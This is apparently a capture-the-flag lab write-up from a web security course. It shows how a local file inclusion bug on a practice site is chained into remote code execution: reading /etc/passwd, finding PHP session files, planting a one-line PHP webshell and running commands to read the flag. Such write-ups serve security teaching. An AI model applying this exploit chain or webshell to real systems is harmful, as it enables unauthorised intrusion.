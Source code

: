```yaml
---
title: Simple Web 0x07(Lab - `HakkaMD`)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTUST WS/LFI"
---
```


# Simple Web 0x07(Lab - `HakkaMD`)
<!-- more -->
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8401

## Background
[資安這條路-Local File Inclusion](https://ithelp.ithome.com.tw/articles/10241555)

## Exploit - LFI to RCE
1. First things first, the website has `LFI` problem
`http://h4ck3r.quest:8401/?module=/etc/passwd`
![](https://i.imgur.com/Efl4E0c.png)
2. <font color="FF0000">**通靈**</font>
It provided `phpinfo()` so that we can check the save address of session.
![](https://i.imgur.com/SO727sY.png)
The setting is default, thus we can use `LFI` to read session file:
`http://h4ck3r.quest:8401/?module=/tmp/sess_0qvmvnk5lh140239e6ol9l16h1`
![](https://i.imgur.com/AiLGZJA.png)
We can see that session file store the data of what we enter. Therefore, we could enter `webshell` to get shell
4. `webshell`
`<?php system($_GET['sh']); ?>`
↓
`http://h4ck3r.quest:8401/?module=/tmp/sess_2f0dilri9ju4553th2bkclefal&sh=ls%20/`
↓
![](https://i.imgur.com/kqlIf6z.png)
↓
`http://h4ck3r.quest:8401/?module=/tmp/sess_2f0dilri9ju4553th2bkclefal&sh=cat%20/flag_aff6136bbef82137`
4. Then we got flag!!!